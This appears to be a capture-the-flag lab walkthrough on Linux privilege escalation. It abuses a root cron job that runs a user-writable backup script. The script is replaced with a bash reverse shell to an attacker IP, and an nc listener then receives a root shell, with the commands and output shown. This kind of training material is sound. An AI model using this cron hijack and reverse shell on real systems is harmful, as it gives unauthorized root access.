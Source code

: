 ```
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```
* All scripts configured to run every minute.
* Contents of `/home/karen/backup.sh`.
```
cat /home/karen/backup.sh
#!/bin/bash
cd /home/admin/1/2/3/Results
zip -r /home/admin/download.zip ./*
```
* Modify accessible script to create a reverse shell.
* `nc` will most likely not support `-e` option due to security.
* Always prefer to start reverse shells.
  * Do not want to compromise system integrity.
* Create Reverse shell script.
1. `nano /home/karen/backup/sh`
2. Delete bottom two lines.
4. Add `bash -i >& /dev/tcp/10.10.16.10/6666 0>&1`
   * IP address is that of the attacker.
7. CTRL+X to save and exit.
* Ensure that script is executable.
```
chmod +x /home/karen/backup.sh
```
* Run listener on attacking machine to receive incoming connection.
```
nc -nlvp 6666
Listening on [0.0.0.0] (family 0, port 6666)

Connection from 10.10.43.228 40628 received!
bash: cannot set terminal process group (12806): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-43-228:~#
root@ip-10-10-43-228:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-43-228:~# whoami
whoami
root
root@ip-10-10-43-228:~# 
```